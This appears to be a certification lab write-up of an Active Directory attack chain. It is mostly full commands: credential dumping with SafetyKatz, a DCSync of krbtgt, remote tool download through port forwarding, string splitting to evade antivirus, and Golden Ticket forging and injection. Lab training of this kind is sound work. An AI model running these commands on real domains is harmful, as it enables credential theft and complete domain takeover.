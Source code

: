 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Part 1)
date: 2024-07-02 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 1: Identifying Machines with Domain Admin Sessions**
To begin our exploitation of domain admin privileges, we first need to identify machines where domain admin accounts are actively logged in. This step is crucial because it allows us to target these machines for further actions, such as stealing tokens or credentials. For this task, we use PowerView, a powerful PowerShell tool that helps in enumerating Active Directory environments. By running the Find-DomainUserLocation command, we can query the Domain Controller to find out which computers have active domain admin sessions. In our example, this command reveals that there is a domain admin session on the dcorp-mgmt server, making it a prime target for our next steps.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server_

## **Step 2: Extracting Domain Controller Hashes and Creating a Golden Ticket Using Rubeus**
In this step, we aim to extract hashes from the domain controller and create a Golden Ticket using Rubeus. A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user within the domain, effectively granting near-unlimited access to network resources.

### Start a Process with Domain Admin Privileges
To start, we use an elevated command prompt (Run as administrator) and utilize ArgSplit.bat to encode the asktgt command. This command is part of the Kerberos authentication process, where it requests a TGT for the domain admin account. The TGT is crucial because it allows us to request service tickets for accessing various network resources.

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

We verify the encoded string to ensure it's correct:
```bash
C:\Windows\system32>echo %Pwn%
asktgt
```

Next, we run Rubeus with the asktgt command using Loader.exe. This step initiates the process of obtaining a TGT for the domain admin account.
```bash
C:\Windows\System32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the Domain Controller
After acquiring the TGT, we need to copy Loader.exe to the domain controller (dcorp-dc). We use the xcopy command to transfer the file to ensure it's available for our use on the target system.
```bash
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### Use WinRS to Access the Domain Controller
With Loader.exe on the domain controller, we open a remote session to the domain controller using WinRS. This tool allows us to execute commands remotely over the Windows Remote Management (WinRM) service.
```bash
winrs -r:dcorp-dc cmd
```

### Set Up Port Forwarding to download the SafetyKatz
On the domain controller, we set up port forwarding with the netsh interface portproxy command. This step facilitates the download of necessary tools, such as SafetyKatz, by redirecting network traffic to the appropriate address and port.
```bash
C:\Users\svcadmin>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Encode and Execute lsadump::lsa
Back on the student VM, we use ArgSplit.bat to encode the lsadump::lsa command. This command dumps Local Security Authority (LSA) secrets from memory, including password hashes.
```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=h"
set "y=c"
```

We run the generated commands in the WinRS session on the domain controller to execute SafetyKatz and perform the LSA dump:
```bash
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
C:\Users\svcadmin>C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

The output of lsadump::lsa reveals the NTLM hashes and other credentials stored in the LSA:
```bash
mimikatz # lsadump::lsa /patch
```

### Perform a DCSync Attack
To obtain the NTLM hash and AES keys of the krbtgt account, we perform a DCSync attack. This attack simulates the behavior of a domain controller and requests replication of credentials, allowing us to dump password hashes.
```bash
C:\Windows\system32>echo %Pwn%
lsadump::dcsync 

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

### Generate and Inject a Golden Ticket
With the krbtgt hash in hand, we generate a Golden Ticket. A Golden Ticket is a powerful tool in an attacker's arsenal, as it allows for the creation of a forged TGT that can impersonate any user within the domain, granting near-unlimited access. We use ArgSplit.bat to encode the golden command:
```bash
C:\AD\Tools>echo %Pwn%
golden
```

Using Rubeus, we create the Golden Ticket with the necessary parameters, including the krbtgt hash and domain information:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /sid:S-1-5-21-719815819-3726368948 /ldap /user:Administrator /printcmd
```

Finally, we inject the Golden Ticket into the current process to gain persistent domain admin access. This is confirmed by checking the username and computer name in the remote session, ensuring we have full administrative control over the domain controller:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

Confirm the Golden Ticket injection:
```bash
[+] Ticket successfully imported!
C:\AD\Tools>winrs -r:dcorp-dc cmd
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Administrator>set username
USERNAME=Administrator
C:\Users\Administrator>set computername
COMPUTERNAME=DCORP-DC
```

